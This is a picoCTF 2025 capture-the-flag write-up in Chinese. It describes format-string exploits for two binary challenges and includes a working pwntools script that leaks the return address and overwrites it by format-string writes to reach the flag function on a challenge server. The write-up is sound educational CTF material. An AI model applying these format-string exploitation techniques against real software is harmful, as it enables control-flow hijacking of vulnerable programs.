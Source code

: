 ```yaml
---
title: picoCTF2025
published: 2025-10-20
description: picoCTF2025 Writeup
tags: [CTF]
category: Learning
draft: false
---
```

## Binary
### PIE TIME 2
`%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`利用這段取得呼叫`call_functions`的下一句
這樣就能獲得偏移基址，就能呼叫`win`了

### Echo Valley
先用`%p`找到return address
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2efcd7ef58bfddd3cfd121553797fb8c.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948591&Signature=opX06FlxtUjRmlh8WO3AklRN4cc%3D)

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_efb4e127eba593f816a6e9f00cf0f78d.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948624&Signature=C1qU7d5dNfAd6zlVZCXBv0ckWTU%3D)

找到return address後的上一個就是rbp，rbp-8就可以獲得存return address的位置

利用return address來計算print flag函數的位址，因為這題會隨機化

這題是從stack的第6個位置開始寫入，知道這些後就可以使用`fmtstr_payload`來在任意位置寫入
注意一次只寫入2 bytes


```python
from pwn import *

#p = process("./valley")
p = remote("shape-facility.picoctf.net", 50579)

context.arch = 'AMD64'

print(p.recvline().decode('utf-8'))
p.sendline(b'%20$p.%21$p')

return_addr = int(p.recvuntil(b'.')[-15:-1], 16) - 8
main_addr = int(p.recvuntil(b'\n')[-15:-1], 16)
printflag_addr = main_addr - 0x1aa

chunks = [
    printflag_addr & 0xFFFF,
    (printflag_addr >> 16) & 0xFFFF,
    (printflag_addr >> 32) & 0xFFFF
]

p.sendline(fmtstr_payload(6, {return_addr: chunks[0]}))
p.sendline(fmtstr_payload(6, {return_addr + 2: chunks[1]}))
p.sendline(fmtstr_payload(6, {return_addr + 4: chunks[2]}))


p.sendline(b'exit')

p.interactive()

```
